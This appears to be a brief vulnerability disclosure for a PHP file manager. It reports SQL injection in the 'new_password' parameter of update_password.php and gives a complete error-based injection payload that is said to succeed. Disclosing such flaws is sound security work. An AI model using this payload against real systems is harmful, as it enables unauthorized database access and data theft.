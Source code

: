 BUG_Author:GZR1

Vulnerability File: /file_manager/register/update_password.php

POST parameter 'new_password' exists SQL injection vulnerability

Payload: new_password=1' and (select 2 from(select count(*),concat(0x712627287273,(select (elt(3=3,1))),0x616263,floor(rand(0)*2))x from information_schema.plugins group by x)x)-- x

Error-based sql injection is successful, proving that there is a sql injection vulnerability

![image](https://github.com/GZRsecurity/cve/blob/main/sql.png)

